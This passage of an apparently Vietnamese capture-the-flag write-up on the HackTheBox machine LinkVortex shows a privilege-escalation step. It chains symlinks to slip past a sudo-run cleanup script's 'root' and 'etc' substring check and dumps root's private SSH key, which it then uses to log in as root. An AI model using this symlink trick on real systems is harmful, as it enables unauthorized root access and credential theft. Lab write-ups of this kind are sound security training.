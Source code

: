 ```bash
[root@vunv-redteam-sb.dev.virt:/tmp]# echo "What can i see anything" > /root/secret.txt
[root@vunv-redteam-sb.dev.virt:/tmp]# cat /root/secret.txt 
What can i see anything
[root@vunv-redteam-sb.dev.virt:/tmp]# ln -s /root/secret.txt a.png
[root@vunv-redteam-sb.dev.virt:/tmp]# ls -l | grep ^l
lrwxrwxrwx 1 root root      16 Jan 20 15:31 a.png -> /root/secret.txt
[root@vunv-redteam-sb.dev.virt:/tmp]# ln -s a.png b.png
[root@vunv-redteam-sb.dev.virt:/tmp]# ls -l | grep ^l
lrwxrwxrwx 1 root root      16 Jan 20 15:31 a.png -> /root/secret.txt
lrwxrwxrwx 1 root root       5 Jan 20 15:32 b.png -> a.png
[root@vunv-redteam-sb.dev.virt:/tmp]# readlink b.png 
a.png # This doesn't point symlink to /root, but its actual do
[root@vunv-redteam-sb.dev.virt:/tmp]# cat b.png 
What can i see anything # BOOOMMMM!!
```

Check symlink thì sẽ không có bao gồm substring `root` hay `etc`, nhưng thực chất nó đang trỏ đến đúng thư mục có chứa `root` . Quả là một kế hoạch hoàn hảo 🤑

*Suýt quên, ở tập lệnh yêu cầu cung cấp variable `CHECK_CONTENT=true` để có thể hiển thị content của file. Vì vậy, cần phải khai báo biến này trước khi muốn đọc bất cứ gì đó không được phép. 😬*

```bash
bob@linkvortex:/tmp$ export CHECK_CONTENT=true
bob@linkvortex:/tmp$ env
...
CHECK_CONTENT=true
...
bob@linkvortex:/tmp$ 
```

Tận dụng để đọc thử ssh key 🙂

```bash
bob@linkvortex:/tmp$ ln -s /root/.ssh/id_rsa /home/bob/meow.png
bob@linkvortex:/tmp$ ln -s /home/bob/meow.png go.png
bob@linkvortex:/tmp$ sudo /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
Link found [ go.png ] , moving it to quarantine
Content:
-----BEGIN OPENSSH PRIVATE KEY-----
...
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----
bob@linkvortex:/tmp$ 
```

Hoàn hảo :)). Coi như đã thành công 99%. Giờ thực hiện ssh vào và kiểm tra:

```bash
┌──(kali㉿kali)-[/tmp]
└─$ vim id_rsa
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp]
└─$ chmod 400 id_rsa 
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp]
└─$ ssh -i id_rsa bob@linkvortex.htb
bob@linkvortex.htb's password: 

                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp]
└─$ ssh -i id_rsa root@linkvortex.htb
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
```